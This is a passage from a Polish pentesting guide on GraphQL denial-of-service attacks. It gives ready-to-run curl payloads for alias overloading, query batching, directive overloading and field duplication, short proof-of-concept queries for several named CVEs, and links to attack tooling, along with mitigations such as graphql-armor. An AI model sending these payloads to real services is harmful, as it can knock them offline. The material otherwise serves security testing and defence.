\nalias64:__typename \nalias65:__typename \nalias66:__typename \nalias67:__typename \nalias68:__typename \nalias69:__typename \nalias70:__typename \nalias71:__typename \nalias72:__typename \nalias73:__typename \nalias74:__typename \nalias75:__typename \nalias76:__typename \nalias77:__typename \nalias78:__typename \nalias79:__typename \nalias80:__typename \nalias81:__typename \nalias82:__typename \nalias83:__typename \nalias84:__typename \nalias85:__typename \nalias86:__typename \nalias87:__typename \nalias88:__typename \nalias89:__typename \nalias90:__typename \nalias91:__typename \nalias92:__typename \nalias93:__typename \nalias94:__typename \nalias95:__typename \nalias96:__typename \nalias97:__typename \nalias98:__typename \nalias99:__typename \nalias100:__typename \n }"}' \
'https://example.com/graphql'
```
Aby temu zapobiec, wprowadź limity liczby aliasów, analizę złożoności zapytań lub rate limiting, aby zapobiec nadużywaniu zasobów.

### **Array-based Query Batching**

**Array-based Query Batching** to podatność, w której GraphQL API umożliwia grupowanie wielu zapytań w jednym żądaniu, pozwalając attackerowi wysłać dużą liczbę zapytań jednocześnie. Może to przeciążyć backend przez równoległe wykonywanie wszystkich zgrupowanych zapytań, zużywając nadmierne ilości zasobów (CPU, pamięci, połączeń z bazą danych) i potencjalnie prowadząc do **Denial of Service (DoS)**. Jeśli liczba zapytań w jednym batchu nie jest ograniczona, attacker może wykorzystać tę możliwość do obniżenia dostępności usługi.
```graphql
# Test provided by https://github.com/dolevf/graphql-cop
curl -X POST -H "User-Agent: graphql-cop/1.13" \
-H "Content-Type: application/json" \
-d '[{"query": "query cop { __typename }"}, {"query": "query cop { __typename }"}, {"query": "query cop { __typename }"}, {"query": "query cop { __typename }"}, {"query": "query cop { __typename }"}, {"query": "query cop { __typename }"}, {"query": "query cop { __typename }"}, {"query": "query cop { __typename }"}, {"query": "query cop { __typename }"}, {"query": "query cop { __typename }"}]' \
'https://example.com/graphql'
```
W tym przykładzie 10 różnych queries jest łączonych w jeden request, zmuszając server do wykonania ich wszystkich jednocześnie. Jeśli zostanie to wykorzystane z większym rozmiarem batcha lub queries wymagającymi dużej mocy obliczeniowej, może doprowadzić do przeciążenia servera.

### **Directive Overloading Vulnerability**

**Directive Overloading** występuje, gdy GraphQL server zezwala na queries zawierające nadmierną liczbę zduplikowanych directives. Może to przeciążyć parser i executor servera, szczególnie jeśli server wielokrotnie przetwarza tę samą logikę directive. Bez odpowiedniej walidacji lub limitów attacker może to wykorzystać, tworząc query z licznymi zduplikowanymi directives w celu wywołania wysokiego zużycia zasobów obliczeniowych lub pamięci, prowadząc do **Denial of Service (DoS)**.
```bash
# Test provided by https://github.com/dolevf/graphql-cop
curl -X POST -H "User-Agent: graphql-cop/1.13" \
-H "Content-Type: application/json" \
-d '{"query": "query cop { __typename @aa@aa@aa@aa@aa@aa@aa@aa@aa@aa }", "operationName": "cop"}' \
'https://example.com/graphql'
```
Zauważ, że w poprzednim przykładzie `@aa` jest niestandardową dyrektywą, która **może nie być zadeklarowana**. Często występującą dyrektywą jest **`@include`**:
```bash
curl -X POST \
-H "Content-Type: application/json" \
-d '{"query": "query cop { __typename @include(if: true) @include(if: true) @include(if: true) @include(if: true) @include(if: true) }", "operationName": "cop"}' \
'https://example.com/graphql'
```
Możesz również wysłać zapytanie introspekcyjne, aby odkryć wszystkie zadeklarowane dyrektywy:
```bash
curl -X POST \
-H "Content-Type: application/json" \
-d '{"query": "{ __schema { directives { name locations args { name type { name kind ofType { name } } } } } }"}' \
'https://example.com/graphql'
```
A następnie **użyj kilku niestandardowych**.

### **Field Duplication Vulnerability**

**Field Duplication** to podatność, w której serwer GraphQL zezwala na nadmierne powtarzanie tego samego pola w zapytaniach. Zmusza to serwer do redundantnego rozwiązywania pola dla każdej jego instancji, zużywając znaczne ilości zasobów (CPU, pamięci i wywołań bazy danych). Atakujący może tworzyć zapytania zawierające setki lub tysiące powtórzonych pól, powodując wysokie obciążenie i potencjalnie prowadząc do **Denial of Service (DoS)**.
```bash
# Test provided by https://github.com/dolevf/graphql-cop
curl -X POST -H "User-Agent: graphql-cop/1.13" -H "Content-Type: application/json" \
-d '{"query": "query cop { __typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n} ", "operationName": "cop"}' \
'https://example.com/graphql'
```
## Ostatnie podatności (2023-2025)

> Ekosystem GraphQL rozwija się bardzo szybko; w ciągu ostatnich dwóch lat ujawniono kilka krytycznych problemów w najczęściej używanych bibliotekach serwerowych. Gdy znajdziesz endpoint GraphQL, warto zatem zidentyfikować silnik (zobacz **graphw00f**) i sprawdzić uruchomioną wersję pod kątem poniższych podatności.

### CVE-2024-47614 – `async-graphql` directive-overload DoS (Rust)
* Dotyczy: async-graphql < **7.0.10** (Rust)
* Przyczyna: brak limitu **zduplikowanych dyrektyw** (np. tysięcy `@include`), które są rozwijane do wykładniczej liczby węzłów wykonania.
* Wpływ: pojedyncze żądanie HTTP może wyczerpać CPU/RAM i spowodować awarię usługi.
* Naprawa/mitigacja: zaktualizuj do wersji ≥ 7.0.10 lub wywołaj `SchemaBuilder.limit_directives()`; alternatywnie filtruj żądania za pomocą reguły WAF, takiej jak `"@include.*@include.*@include"`.<sup>[[7]](#references)</sup>
```graphql
# PoC – repeat @include X times
query overload {
__typename @include(if:true) @include(if:true) @include(if:true)
}
```
### CVE-2024-40094 – obejście limitów głębokości/złożoności `graphql-java`
* Dotyczy: graphql-java < 19.11, 20.0-20.8, 21.0-21.4
* Przyczyna: **ExecutableNormalizedFields** nie były uwzględniane przez instrumentację `MaxQueryDepth` / `MaxQueryComplexity`. Rekurencyjne fragmenty omijały więc wszystkie limity.
* Wpływ: nieuwierzytelniony DoS przeciwko stosom Java wykorzystującym graphql-java (Spring Boot, Netflix DGS, produkty Atlassian…).
```graphql
fragment A on Query { ...B }
fragment B on Query { ...A }
query { ...A }
```
### CVE-2023-23684 – łańcuch SSRF do RCE w WPGraphQL
* Dotyczy: WPGraphQL ≤ 1.14.5 (plugin WordPress).
* Główna przyczyna: mutacja `createMediaItem` akceptowała kontrolowane przez atakującego adresy URL **`filePath`**, umożliwiając dostęp do sieci wewnętrznej i zapisywanie plików.
* Wpływ: uwierzytelnieni Editors/Authors mogli uzyskać dostęp do endpointów metadanych lub zapisywać pliki PHP w celu zdalnego wykonania kodu.

### CVE-2025-32031 – DoS przez fragment fan-out w query-plannerze Apollo Gateway
* Dotyczy: `@apollo/gateway` < **2.10.1**
* Główna przyczyna: **głęboko zagnieżdżone i intensywnie ponownie używane nazwane fragmenty** mogą omijać wewnętrzne optymalizacje query-plannera, przez co gateway zużywa większość czasu CPU na **planowanie** żądania, zanim trafi ono do subgraphów.
* Wpływ: niewielka liczba nieuwierzytelnionych żądań może sprawić, że **federated gateway** przestanie odpowiadać, nawet gdy kontrole głębokości/złożoności resolverów na subgraphach nie wykazują problemów.
* Wskazówka dotycząca testowania: podczas testów black-box obserwuj wysokie opóźnienia / skoki użycia CPU przez gateway przy niemal zerowym odpowiadającym im ruchu do subgraphów. Wąskim gardłem jest planner, a nie resolver.
```graphql
fragment F2 on Query { __typename }
fragment F1 on Query { ...F2 ...F2 }
fragment F0 on Query { ...F1 ...F1 }
query { ...F0 }
```
---

## Nadużycie incremental delivery: `@defer` / `@stream`
Od 2023 roku większość głównych serwerów (Apollo 4, GraphQL-Java 20+, HotChocolate 13) zaimplementowała dyrektywy **incremental delivery** zdefiniowane przez GraphQL-over-HTTP WG. Każdy odroczony patch jest wysyłany jako **oddzielny chunk**, więc całkowity rozmiar odpowiedzi wynosi *N + 1* (envelope + patches). Zapytanie zawierające tysiące niewielkich odroczonych pól generuje zatem dużą odpowiedź, wymagając od atakującego tylko jednego requestu – jest to klasyczny **amplification DoS** oraz sposób na ominięcie reguł WAF dotyczących rozmiaru body, które sprawdzają tylko pierwszy chunk. Sami członkowie WG wskazywali to ryzyko.

Przykładowy payload generujący 2 000 patches:
```graphql
query abuse {
% for i in range(0,2000):
f{{i}}: __typename @defer
% endfor
}
```
Mitigacja: wyłącz `@defer/@stream` w środowisku produkcyjnym lub wymuś limity `max_patches`, skumulowanego `max_bytes` i czasu wykonania. Biblioteki takie jak **graphql-armor** (zobacz poniżej) już wymuszają rozsądne wartości domyślne.

---

## Middleware ochronne (2024+)

| Projekt | Uwagi |
|---|---|
| **graphql-armor** | Middleware walidacyjne dla Node/TypeScript opublikowane przez Escape Tech. Implementuje gotowe do użycia limity głębokości zapytań, liczby aliasów/pól/dyrektyw, tokenów i kosztu; kompatybilne z Apollo Server, GraphQL Yoga/Envelop, Helix itd. |

Szybki start:
```ts
import { protect } from '@escape.tech/graphql-armor';
import { applyMiddleware } from 'graphql-middleware';

const protectedSchema = applyMiddleware(schema, ...protect());
```
`graphql-armor` będzie teraz blokować zapytania o nadmiernej głębokości, złożoności lub liczbie dyrektyw, chroniąc przed powyższymi CVE.<sup>[[8]](#references)</sup>

---

## Narzędzia

### Skanery podatności

- [https://github.com/dolevf/graphql-cop](https://github.com/dolevf/graphql-cop): Testuje typowe błędne konfiguracje endpointów graphql
- [https://github.com/assetnote/batchql](https://github.com/assetnote/batchql): Skrypt do audytowania bezpieczeństwa GraphQL, skupiający się na wykonywaniu batch GraphQL queries i mutations.
- [https://github.com/dolevf/graphw00f](https://github.com/dolevf/graphw00f): Identyfikuje używaną implementację graphql
- [https://github.com/gsmith257-cyber/GraphCrawler](https://github.com/gsmith257-cyber/GraphCrawler): Toolkit służący do pobierania schematów i wyszukiwania wrażliwych danych, testowania autoryzacji, brute force schematów oraz znajdowania ścieżek do danego typu.
- [https://blog.doyensec.com/2020/03/26/graphql-scanner.html](https://blog.doyensec.com/2020/03/26/graphql-scanner.html): Może być używany samodzielnie lub jako [rozszerzenie Burp](https://github.com/doyensec/inql).
- [https://github.com/swisskyrepo/GraphQLmap](https://github.com/swisskyrepo/GraphQLmap): Może być używany jako klient CLI, a także do automatyzacji ataków: `python3 graphqlmap.py -u http://example.com/graphql --inject`
- [https://gitlab.com/dee-see/graphql-path-enum](https://gitlab.com/dee-see/graphql-path-enum): Narzędzie wyświetlające różne sposoby **dotarcia do danego typu w schemacie GraphQL**.
- [https://github.com/doyensec/GQLSpection](https://github.com/doyensec/GQLSpection): Następca trybów Standalone i CLI narzędzia InQL
- [https://github.com/doyensec/inql](https://github.com/doyensec/inql): Rozszerzenie Burp lub skrypt python do zaawansowanego testowania GraphQL. _**Scanner**_ to główny komponent InQL v5.0, umożliwiający analizę endpointu GraphQL lub lokalnego pliku schematu introspekcji. Automatycznie generuje wszystkie możliwe queries i mutations, organizując je w ustrukturyzowanym widoku do analizy. Komponent _**Attacker**_ umożliwia przeprowadzanie batch GraphQL attacks, co może być przydatne do omijania nieprawidłowo zaimplementowanych rate limits: `python3 inql.py -t http://example.com/graphql -o output.json`
- [https://github.com/nikitastupin/clairvoyance](https://github.com/nikitastupin/clairvoyance): Próbuje pobrać schemat nawet przy wyłączonej introspekcji, korzystając z baz danych Graphql, które sugerują nazwy mutations i parametrów.

### Skrypty do wykorzystywania typowych podatności

- [https://github.com/reycotallo98/pentestScripts/tree/main/GraphQLDoS](https://github.com/reycotallo98/pentestScripts/tree/main/GraphQLDoS): Zbiór skryptów do wykorzystywania podatności denial-of-service w podatnych środowiskach graphql.

### Klienci

- [https://github.com/graphql/graphiql](https://github.com/graphql/graphiql): Klient GUI
- [https://altair.sirmuel.design/](https://altair.sirmuel.design/): Klient GUI

### Testy automatyczne

{{#ref}}
https://graphql-dashboard.herokuapp.com/
{{#endref}}

- Film wyjaśniający AutoGraphQL: [https://www.youtube.com/watch?v=JJmufWfVvyU](https://www.youtube.com/watch?v=JJmufWfVvyU)

## Referencje

- [1] [Praktyczne wektory ataków GraphQL](https://jondow.eu/practical-graphql-attack-vectors/)
- [2] [GraphQL — typowe podatności i sposoby ich wykorzystywania](https://medium.com/@the.bilal.rizwan/graphql-common-vulnerabilities-how-to-exploit-them-464f9fdce696)
- [3] [Wszystko o bezpieczeństwie GraphQL, model GraphQL vs REST API](https://medium.com/@apkash8/graphql-vs-rest-api-model-common-security-test-cases-for-graphql-endpoints-5b723b1468b4)
- [4] [Hacking API: GraphQL](http://ghostlulz.com/api-hacking-graphql/)
- [5] [GraphQL Injection - PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/GraphQL%20Injection/README.md)
- [6] [Podatności GraphQL API - PortSwigger](https://portswigger.net/web-security/graphql)
- [7] [Przeciążenie dyrektyw async-graphql powodujące Denial of Service (GHSA-5gc2-7c65-8fq8 / CVE-2024-47614)](https://github.com/advisories/GHSA-5gc2-7c65-8fq8)
- [8] [GraphQL Armor](https://github.com/escape-tech/graphql-armor)
- [9] [Wydano InQL v6.1.0 z nowymi funkcjami i gadżetami dla współtwórców!](https://blog.doyensec.com/2025/12/02/inql-v610.html)
- [10] [GraphQL Threat Matrix](https://github.com/nicholasaleks/graphql-threat-matrix)
- [11] [Przesyłanie plików - GraphQL](https://graphql.org/learn/file-uploads/)
- [12] [Persisted Queries - dokumentacja Apollo GraphOS](https://www.apollographql.com/docs/graphos/platform/security/persisted-queries)
- [13] [Zhakowaliśmy Google A.I. za 50 000 USD](https://www.landh.tech/blog/20240304-google-hack-50000/)
- [14] [Atak z wykorzystaniem GraphQL Batching](https://lab.wallarm.com/graphql-batching-attack/)
- [15] [Testowanie bezpieczeństwa GraphQL bez schematu](https://blog.forcesunseen.com/graphql-security-testing-without-a-schema)
- [16] [NahamCon2024: GraphQL to nowe PHP | @0xlupin](https://www.youtube.com/watch?v=tIo_t5uUK50)
- [17] [Ten pojedynczy problem GraphQL, który ciągle pomijasz](https://blog.doyensec.com/2021/05/20/graphql-csrf.html)
- [18] [Podatność umożliwiająca ominięcie uwierzytelniania GraphQL Query](https://s1n1st3r.gitbook.io/theb10g/graphql-query-authentication-bypass-vuln)
- [19] [Raport HackerOne nr 792927 - leak wrażliwych danych konta za pośrednictwem zmiennych GraphQL query](https://hackerone.com/reports/792927)
- [20] [graphql.org - GraphQL: język zapytań dla API](https://graphql.org/learn/introspection)

{{#include ../../banners/hacktricks-training.md}}
